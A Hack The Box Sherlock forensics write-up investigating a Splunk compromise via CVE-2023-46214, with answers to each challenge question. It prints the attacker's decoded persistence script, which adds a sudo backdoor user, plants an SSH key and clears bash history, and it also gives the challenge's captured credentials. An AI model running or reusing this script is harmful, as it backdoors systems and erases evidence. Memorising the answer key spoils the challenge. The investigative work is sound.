---
tags:
  - htb
  - sherlock
  - easy
  - post
urls:
---
---
# HTB Sherlock - Fragility Writeup

> **Scenario:** In the monitoring team at our company, each member has access to Splunk web UI using a Splunk admin account. Among them, John has full control over the machine that hosts the entire Splunk system. One day, he panicked and reported to us that an important file on his computer had disappeared. Moreover, he also discovered a new account on the login screen. Suspecting this to be the result of an attack, we proceeded to collect some evidence from his computer and also obtained a network capture. Can you help us investigate it?

# QUESTIONS

1. What CVE did the attacker use to exploit the vulnerability?

**Answer:** `CVE-2023-46214`

Listing the conversations in the provided `capture.pcapng` file reveals `SSH` communication and `HTTP` communication over port 8000, usually hosting `Splunk`:



```
ip.addr == 192.168.222.130 && ip.addr == 192.168.222.145 && tcp.port == 8000
```



Following the `HTTP` stream of the frame 15 shows the full communication between the `Splunk` server and the client shows encoded commands inside a `.xsl` file:



The content decoded comes out to:

```bash
#!/bin/bash
adduser --shell /bin/bash --gecos nginx --quiet --disabled-password --home /var/www/ nginx
access=$(echo f8287ec2-3f9a-4a39-9076-36546ebb6a93)
echo "nginx:$access" | chpasswd
usermod -aG sudo nginx
mkdir /var/www/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKoougbBG5oQuAQWW2JcHY/ZN49jmeegLqgVlimxv42SfFXcuRgUoyostBB6HnHB5lKxjrBmG/183q1AWn6HBmHpbzjZZqKwSfKgap34COp9b+E9oIgsu12lA1I7TpOw1S6AE71d4iPj5pFFxpUbSG7zJaQ2CAh1qK/0RXioZYbEGYDKVQc7ivd1TBvt0puoogWxllsCUTlJxyQXg2OcDA/8enLh+8UFKIvZy4Ylr4zNY4DyHmwVDL06hcjTfCP4T/JWHf8ShEld15gjuF1hZXOuQY4qwit/oYRN789mq2Ke+Azp0wEo/wTNHeY9OSQOn04zGQH/bLfnjJuq1KQYUUHRCE1CXjUt4cxazQHnNeVWlGOn5Dklb/CwkIcarX4cYQM36rqMusTPPvaGmIbcWiXw9J3ax/QB2DR3dF31znW4g5vHjYYrFeKmcZU1+DCUx075nJEVjy+QDTMQvRXW9Jev6OApHVLZc6Lx8nNm8c6X6s4qBSu8EcLLWYFWIwxqE= support@nginx.org" > /var/www/.ssh/authorized_keys
chown -R nginx:nginx /var/www/
cat /dev/null > /root/.bash_history
```

A quick Google search for `search.xsl splunk cve` returns the exploited vulnerability to achieve remote command execution:



2. What MITRE technique does the attacker use to maintain persistence?

**Answer:** `T1136`

The attacker created the account `nginx`:

```bash
adduser --shell /bin/bash --gecos nginx --quiet --disabled-password --home /var/www/ nginx
```



3. John has adjusted the timezone but hasn't rebooted the computer yet, which has led to some things either being updated or not updated with the new timezone. Identifying the timezone can assist you further in your investigation. What was the default timezone and the timezone after John's adjustment on this machine?

**Answer:** `utc-07/utc+07`


The time difference between the `auth.log` useradd timestamp and the timestamp of the CVE exploitation is `7` hours:






4. When did the attacker SSH in? (UTC)

**Answer:** `04-14 15:00:21`

Filtering for `SSH` communication between the attacker and the server shows the time of the connection:

```
ip.src == 192.168.222.130 && ip.dst == 192.168.222.145 && ssh
```



5. How much time has passed from when the user was first created to when the attacker stopped using SSH?

**Answer:** `00:02:55`

The account was created at `08:00:13` and the session ended at `08:03:08`:





6. What is the password for the account that the attacker used to backdoor?

**Answer:** `f8287ec2-3f9a-4a39-9076-36546ebb6a93`

The password is present in the decoded command:

```bash
access=$(echo f8287ec2-3f9a-4a39-9076-36546ebb6a93)
```

7. What are the username and password that the attacker uses to access Splunk?

**Answer:** `johnnyC:h3Re15j0hnNy`

Filtering for `POST` requests gives the user and password used to acces Splunk:

```
ip.addr == 192.168.222.130 && ip.addr == 192.168.222.145 && tcp.port == 8000 && http.request.method == POST
```

